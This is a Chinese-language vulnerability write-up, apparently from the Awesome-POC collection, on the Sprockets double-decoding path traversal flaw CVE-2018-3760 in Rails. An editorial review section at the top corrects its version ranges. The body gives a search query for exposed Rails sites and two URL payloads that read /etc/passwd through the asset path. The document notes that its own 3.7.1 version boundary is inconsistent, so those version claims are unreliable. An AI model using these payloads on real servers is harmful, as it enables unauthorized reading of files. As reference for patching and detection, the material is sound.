


## 核对与使用边界

- 回源确认：Sprockets 官方安全邮件给 3.x 受影响至 3.7.1、首修复 3.7.2；2.x 至 2.12.4/首修复 2.12.5；4.0 beta 至 beta7/首修复 beta8。需要实际使用受影响 Sprockets 服务的配置；不能按 Rails 总版本直接判定。

核对来源：[Sprockets 官方安全邮件](https://groups.google.com/g/rubyonrails-security/c/ft_J--l55fM/m/7roDfQ50BwAJ)

- 明确更正：本文上下文将 Sprockets 3.7.1 包含在受影响范围，不能把它同时作为安全下限。维护分支需分别记录，不能把 2.x、3.x、4.x beta 的边界连写成一个范围；准确首修复以官方公告核对。
- 现有读取 /etc/passwd 的演示支持文件读取能力，不能据此认定任意文件均可执行；执行还需处理器、文件类型、应用配置或另一个写入/执行入口。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：简介&lt;=3.7.1，元数据及影响&lt;3.7.1自相矛盾；其他分支未列

代码与实验材料：报错暴露allowed path后双编码遍历两步明确，依赖动态资产服务

来源证据范围：Awesome-POC无官方公告

- **适用与权限边界（1）**：3.7.1边界不一致；依据：简介包含3.7.1而影响表排除。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：读文件不能自动等同执行任意文件；依据：只验证/etc/passwd，执行需文件类型/处理器/可写源等额外条件。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails 在开发环境下使用 Sprockets 作为静态文件服务器，Ruby On Rails 是著名 Ruby Web 开发框架，Sprockets 是编译及分发静态资源文件的 Ruby 库。

Sprockets 3.7.1 及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面


先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```



再利用 POC 读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```




---

> 来源：Threekiii/Awesome-POC
